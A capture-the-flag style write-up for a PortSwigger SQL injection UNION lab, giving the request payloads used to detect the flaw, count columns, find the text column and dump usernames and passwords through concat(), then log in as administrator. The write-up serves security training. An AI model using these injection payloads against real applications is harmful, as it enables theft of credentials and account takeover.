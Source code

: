 # [Lab: SQL injection UNION attack, retrieving multiple values in a single column](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column)

## Lab

This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The database contains a different table called `users`, with columns called `username` and `p`assword`.

To solve the lab, perform an SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the `administrator` user.

## Solutions

1. Detect SQLi:

    - `GET /filter?category=' HTTP/1.1`

    ```http
    HTTP/1.1 500 Internal Server Error
    ```

2. Determining the number of columns using `ORDER BY`:
    - positions: `GET /filter?category='+ORDER+BY+§1§-- HTTP/1.1`
    - payloads: 1 -> 10
    - result: 2 columns

3. Exploit:

    ```http
    GET /filter?category='UNION+SELECT+*+FROM+users-- HTTP/1.1
    ```

    - result: `HTTP/1.1 500 Internal Server Error`

4. Check data type:

    ```http
    GET /filter?category=%27UNION+SELECT+'a',NULL+-- HTTP/1.1
    ```

    - => 500

    ```http
    GET /filter?category=%27UNION+SELECT+NULL,'a'+-- HTTP/1.1
    ```

    - => 200
    - => only second column containing text

5. Exploit again using concat function

    ```http
    GET /filter?category='UNION+SELECT+NULL,concat(username,',',password)+FROM+users-- HTTP/1.1
    ```

    - result: `administrator,4fe7szltk7gyvmthhhqw`
6. Login to admin account => Lab Solved
